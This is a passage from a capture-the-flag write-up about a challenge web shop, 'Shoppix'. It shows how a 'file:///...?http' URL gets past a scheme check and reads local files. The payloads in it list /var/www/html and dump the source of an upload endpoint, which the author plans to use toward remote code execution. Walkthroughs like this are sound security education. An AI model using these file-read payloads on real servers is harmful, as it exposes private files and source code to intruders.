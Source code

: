 In URL syntax, “?” starts the query string and does not alter the scheme, authority, or path that precede it. Therefore, in file:///?http, the scheme remains file, and the part after “?” is just a query component that is ignored by the scheme resolution for the actual target resource.

## 2. Internal discovery phase

Now that we’ve got access to the machine, it’s time for the fun part: start enumerating. 

I start enumerating from the root and find the flag there, but the solution still requires RCE, so the joy is short‑lived. But let's take this as our "first solution".

![7.png]

Next up, I enumerate the /var/www/html path since that’s where all the site’s pieces live, to see if there’s an endpoint I couldn’t turn up with my earlier enumeration.

And BINGO: a new endpoint shows up, `upload_shoppix_images.php`, which looks like exactly what’s needed to keep going (Do you remember the uploads folder?).

![8.png]

**Payload: `file:///var/www/html?http`**

Let’s analyze this file.

**Payload: `file:///var/www/html/upload_shoppix_images.php?http`**
```php
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Shoppix Upload</title>
  <link href="https://fonts.googleapis.com/css2?family=Montserrat:wght@400;600&display=swap" rel="stylesheet">
  <style>
    body { 
      background: #0d0d0d; 
      color: #f1f1f1; 
      font-family: 'Montserrat', sans-serif; 
      margin: 0; 
      display: flex; 
      align-items: center; 
      justify-content: center; 
      height: 100vh; 
    }
    .card {
      background: #1e1e1e;
      padding: 40px;
      border-radius: 12px;
      box-shadow: 0 4px 15px rgba(0,0,0,0.4);
      text-align: center;
      width: 450px;
    }
    h1 { color: #03a9f4; margin-bottom: 20px; }
    input[type=file] {
      margin: 15px 0;
      color: #ddd;
    }
    button {
      padding: 12px 25px; 
      border: none; 
      border-radius: 6px; 
      background: #03a9f4; 
      color: white; 
      font-weight: 600; 
      cursor: pointer;
```